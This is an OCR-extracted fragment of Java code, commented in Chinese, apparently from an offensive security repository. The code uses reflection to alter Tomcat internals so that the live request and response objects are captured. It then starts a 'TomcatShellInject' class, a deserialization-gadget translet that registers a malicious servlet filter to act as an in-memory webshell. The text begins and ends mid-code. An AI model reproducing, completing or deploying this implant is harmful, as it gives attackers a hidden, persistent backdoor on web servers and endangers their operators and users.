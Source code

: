 ```jsp
            try {
                //修改 WRAP_SAME_OBJECT 值为 true
                Class c = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
                java.lang.reflect.Field f = c.getDeclaredField("WRAP_SAME_OBJECT");
                java.lang.reflect.Field modifiersField = f.getClass().getDeclaredField("modifiers");
                modifiersField.setAccessible(true);
                modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
                f.setAccessible(true);
                if (!f.getBoolean(null)) {
                    f.setBoolean(null, true);
                }

                //初始化 lastServicedRequest
                c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
                f = c.getDeclaredField("lastServicedRequest");
                modifiersField = f.getClass().getDeclaredField("modifiers");
                modifiersField.setAccessible(true);
                modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
                f.setAccessible(true);
                if (f.get(null) == null) {
                    f.set(null, new ThreadLocal());
                }

                //初始化 lastServicedResponse
                f = c.getDeclaredField("lastServicedResponse");
                modifiersField = f.getClass().getDeclaredField("modifiers");
                modifiersField.setAccessible(true);
                modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
                f.setAccessible(true);
                if (f.get(null) == null) {
                    f.set(null, new ThreadLocal());
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
                throws TransletException {

        }
    }


    public class TomcatShellInject extends AbstractTranslet implements Filter {

        public Boolean init(String filename) {
            try {
                javax.servlet.ServletContext servletContext = getServletContext();
                if (servletContext != null) {
                    Class c = Class.forName("org.apache.catalina.core.StandardContext");
                    Object standardContext = null;
                    //判断是否已有该名字的filter，有则不再添加
                    if (servletContext.getFilterRegistration(filterName) == null) {
                        //遍历出标准上下文对象
```